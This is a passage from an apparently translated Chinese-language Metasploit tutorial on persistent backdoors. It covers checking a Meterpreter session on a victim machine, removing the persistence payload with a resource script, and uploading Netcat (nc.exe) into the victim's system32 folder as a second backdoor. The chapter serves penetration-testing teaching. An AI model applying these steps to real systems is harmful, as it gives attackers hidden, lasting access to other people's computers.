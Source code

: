 我们看到受害者的系统已经建立了一个 MeterMeter 会话。让我们验证有效负载是否落在受害者的`C:`驱动器中。

![Metasploit persistent backdoor](img/3589_10_37.jpg)

如果您想删除该有效负载，我们必须输入`resource`和在运行`persistence`命令时创建的文件的路径。我们可以在上一步中找到路径。输入`resource /root/.msf4/logs/persistence/PWNED-02526E037_20130513.2452/PWNED-02526E037_20130513.2452.rc`。

![Metasploit persistent backdoor](img/3589_10_38.jpg)

我们将向您展示另一个著名的持久后门 Netcat。我们将通过 MeterMeter 会话在受害者的系统上上传 Netcat。就像下面的截图一样，我们将在桌面上看到`nc.exe`文件；那个文件是 Netcat。现在我们将把这个`nc.exe`文件上传到受害者的`system32`文件夹中。所以输入`upload /root/Desktop/nc.exe C:\\windows\\system32`。

![Metasploit persistent backdoor](img/3589_10_39.jpg)
